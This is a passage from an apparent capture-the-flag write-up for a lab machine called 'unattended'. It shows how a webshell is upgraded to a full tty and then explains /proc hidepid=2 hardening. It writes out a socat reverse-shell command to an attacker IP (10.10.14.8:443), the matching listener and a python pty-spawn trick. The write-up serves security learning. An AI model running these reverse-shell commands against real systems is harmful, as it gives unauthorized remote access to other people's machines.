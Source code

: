 
### Shell Upgrade

Normally I would run the `python -c 'import pty;pty.spawn("bash")'` trick
here, but there’s no python on the box:

    
    
    www-data@unattended:/var/www/html$ which python
    www-data@unattended:/var/www/html$ which python3
    www-data@unattended:/var/www/html$ locate python
    bash: locate: command not found
    www-data@unattended:/var/www/html$ find / -type f -name python* 2>/dev/null
    /usr/share/nano/python.nanorc
    

But `socat` is:

    
    
    www-data@unattended:/var/www/html$ which socat
    /usr/bin/socat
    

I can actually just use `socat` to get a full tty. I’ll update my webshell
command to `socat exec:'bash -li',pty,stderr,setsid,sigint,sane
tcp:10.10.14.8:443` and url-encode it.:

Then I’ll listen with `socat`, and on hitting submit in repeater, I get a
shell:

    
    
    root@kali# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
    www-data@unattended:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Shell as guly

### System Hardening

#### hidepid=2

The box author hardened this box such that I can’t see other users processes.
He did this by mounting [/proc with hidepid=2](https://linux-audit.com/linux-
system-hardening-adding-hidepid-to-proc/). I can see this by running `mount`:

    
    
    guly@unattended:/boot$ mount | grep ^proc
    proc on /proc type proc (rw,relatime,hidepid=2)
    

This explains why when I run `ps auwxx` I only see processes belonging to my
current user:

    
    
    guly@unattended:/boot$ ps awuxx
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    guly       825  0.0  0.0   4288   764 ?        S    01:32   0:00 sh -c socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10
    guly       826  0.0  0.1  30880  3376 ?        S    01:32   0:01 socat exec:bash -li,pty,stderr,setsid,sigint,sane tcp:10.10.14.8:44
    guly       827  0.0  0.1  20208  3900 pts/1    Ss   01:32   0:00 bash -li
    guly     10904  0.0  0.1  38308  3308 pts/1    R+   15:46   0:00 ps awuxx
    